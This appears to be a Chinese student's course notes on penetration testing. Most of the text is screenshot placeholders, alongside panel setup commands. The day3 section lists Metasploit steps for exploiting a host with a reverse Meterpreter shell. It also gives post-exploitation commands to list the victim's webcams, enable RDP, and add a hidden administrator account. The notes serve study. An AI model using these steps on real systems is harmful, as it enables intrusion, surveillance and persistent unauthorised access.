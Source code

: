 

### day1





![image-20210115114142403](../../note/img/image-20210115114142403.png)

OSS 七牛云存储服务

![image-20210115150123046](../../note/img/image-20210115150123046.png)



浏览器后门无解
混合应用 cs/bs混合
游戏服务器
pandownload案例

![image-20210115150918582](../../note/img/image-20210115150918582.png)

qq聊天记录

![image-20210115151204184](../../note/img/image-20210115151204184.png)



小p面板 宝塔面板只用数据库



数据库用bt搭建



red5视频服务器



![image-20210115153820768](../../note/img/image-20210115153820768.png)

![image-20210115154808691](../../note/img/image-20210115154808691.png)

![image-20210115155152728](../../note/img/image-20210115155152728.png)

#### 内网穿透

* frp

  ​	frp

  ​	nrgok(小米球 http/https/tcp)

  ​	pray

虚拟机安装后第一步

#### 打快照

![image-20210115161959485](../../note/img/image-20210115161959485.png)











![image-20210115170809620](../../note/img/image-20210115170809620.png)





CENTOS 安装宝塔



```
yum install -y  wget && wget -O install.sh http://download.bt.cn/install/install_6.0.sh&&sh install.sh
先安装wget
```

docker安装

```
docker pull centos
docker run -d -p 680:80 -p 622:22 -p 1433:443 -p 8880:888 -p 8888:8888  --privileged=true -v /home/www:/www centos
```

```
输入bt
可以在shell中管理
```

openwrt
刷路由器

软路由 刷爱快

* 
  *  
    *  

### day2

![image-20210116102813516](../../note/img/image-20210116102813516.png)

![img](../../note/img/RK{NA@D3IP}15}(QG@E)EK.png)









![image-20210116153629773](../../note/img/image-20210116153629773.png)

![image-20210116160218505](../../note/img/image-20210116160218505.png)

![image-20210116171119600](../../note/img/image-20210116171119600.png)

### day3

![image-20210117095833783](../../note/img/image-20210117095833783.png)

![image-20210117095846552](../../note/img/image-20210117095846552.png)

![image-20210117100059562](../../note/img/image-20210117100059562.png)

![image-20210117102920582](../../note/img/image-20210117102920582.png)

![image-20210117103131222](../../note/img/image-20210117103131222.png)

![image-20210117103459501](../../note/img/image-20210117103459501.png)

![image-20210117103845521](../../note/img/image-20210117103845521.png)

![image-20210117104113357](../../note/img/image-20210117104113357.png)

![image-20210117104223443](../../note/img/image-20210117104223443.png)

![image-20210117104436326](../../note/img/image-20210117104436326.png)

![image-20210117110900585](../../note/img/image-20210117110900585.png)

![image-20210117110907545](../../note/img/image-20210117110907545.png)

**![image-20210117111943271](../../note/img/image-20210117111943271.png)**

![image-20210117152126173](../../note/img/image-20210117152126173.png)



进入kali使用msf工具

```
1.msfconle
2.search 漏洞编号 得到有效的工具模块
3.use 模块#加载有效的模块
4.show option #查看工具模块配置

set Rhost 设置攻击地址
set payload windows/64/meteperter/rever
set Lhost
5.exploit 发起攻击

	 shell 拿到shell
	mkdir aaa
```

![image-20210117152225365](../../note/img/image-20210117152225365.png)

```
webcam_list 查看主机的摄像设备
webcam_
run getgui -e 打开3389端口
net user
net user admin 1q! /add
net localgroup Administrators admin /add
net localgroup Administrators

```

![image-20210117152547942](../../note/img/image-20210117152547942.png)

![image-20210117154022190](../../note/img/image-20210117154022190.png)









![image-20210117172121200](../../note/img/image-20210117172121200.png)



### day4

后渗透阶段
网络安全产品

![image-20210118094138587](../../note/img/image-20210118094138587.png)

代码审计


云帮手
![image-20210118095040229](../../note/img/image-20210118095040229.png)

![image-20210118095154663](../../note/img/image-20210118095154663.png)

![image-20210118100919541](../../note/img/image-20210118100919541.png)

![image-20210118101254873](../../note/img/image-20210118101254873.png)

![image-20210118102437866](../../note/img/image-20210118102437866.png)

e

![image-20210118102812609](../../note/img/image-20210118102812609.png)

```
search 

```

![image-20210118174434764](../../note/img/image-20210118174434764.png)

### day5

![image-20210119113424849](../../note/img/image-20210119113424849.png)

```
atob()
btoa()
encode(URI  )
md5(md5."radom")
```

### 



![image-20210119154447529](../../note/img/image-20210119154447529.png)

![image-20210119155304292](../../note/img/image-20210119155304292.png)

![image-20210119155357968](../../note/img/image-20210119155357968.png)

![image-20210119161659788](../../note/img/image-20210119161659788.png)

代码审计

sql语句的预编译

![image-20210119163542952](../../note/img/image-20210119163542952.png)

```
header("location",$loc)
```

day6
渗透

线上没有拿到工具
线上没有